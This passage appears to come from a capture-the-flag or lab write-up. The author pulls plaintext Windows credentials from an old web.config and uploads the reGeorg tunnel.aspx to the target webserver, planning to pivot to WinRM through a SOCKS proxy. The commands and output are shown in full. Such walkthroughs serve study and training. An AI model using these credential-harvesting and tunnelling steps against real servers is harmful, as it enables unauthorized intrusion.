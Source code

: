     > type ../web.config.old
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
            <authentication mode="Windows">
            <identity impersonate="true"                 
                userName="simple" 
                password="ZonoProprioZomaro:-("/>
         </authentication>
            <directoryBrowse enabled="false" showFlags="None" />
        </system.webServer>
    </configuration>



These creds look like they might be Windows user credentials.i

### Shell over WinRm Through Proxy

#### reGeorg

There's a neat project, [reGeorg](https://github.com/sensepost/reGeorg),
which provides `tunnel.*` files for web languages such as php, aspx, js,
and jsp. These pages provide a socks proxy through their web server
execution. If I can get one of these to run on a target webserver, I can
then run `reGeorgSocksProxy.py` to connect to it, which creates a socks
proxy from my machine to the target.

#### Strategy

I'll take a minute and collect the things I know at this point that are
relevant:

-   I know from the netstat on port 6666 that the host is listening on
    WinRm 5985, even if I can't access it directly.
-   I've got the password for the user simple.
-   The web dirs seem to be running both php and ASP.NET. For php I've
    seen that the list of blocked functions, and that seems less likely
    to work. While an ASP.NET webshell won't function (see Beyond Root),
    reGeorg might, so I'll start there.

#### Upload reGeorg



     > help upload
    Upload a local file to target
            Spaces allowed in target path, not local path
            upload [local file] [path on target]
     > upload /opt/reGeorg/tunnel.aspx tun.aspx
     > dir .
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.md
        [3] => tun.aspx
        [4] => webadmin.php
    )
    1
